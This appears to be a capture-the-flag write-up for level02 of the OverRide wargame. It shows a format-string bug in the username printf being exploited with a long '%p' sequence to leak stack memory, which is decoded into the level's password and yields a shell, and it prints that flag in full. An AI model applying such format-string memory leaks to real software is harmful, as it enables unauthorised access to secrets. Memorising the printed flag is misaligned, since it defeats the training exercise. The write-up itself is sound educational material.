 After analyzing the source code, we can see that it executes /bin/sh only if the password matches the flag.

We also noticed an unprotected printf function used to display the username, which we can exploit to get File content

First, let's test this:

```
level02@OverRide:~$ ./level02 %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
AAAA0x7fffffffe0e0 (nil) 0x20 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe2d8 0x61f7ff9a08 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x100702520 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x2520702541414141 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 does not have access!
level02@OverRide:~$ ./level02 %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

We can see five pointers before ours pointer:

0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d between 


Converting these to ASCII gives us: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M.

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
--[ Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
*****************************************
unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M does not have access!
```

Next, we reverse the pointer order before converting to ASCII:

0x48336750664b394d 0x354a35686e475873 0x377a7143574e6758 0x45414a3561733951 0x756e505234376848

H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH

This gives us: H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH.

Reversing this string, we get: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H.

Let's test this:

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H!
$ 
```
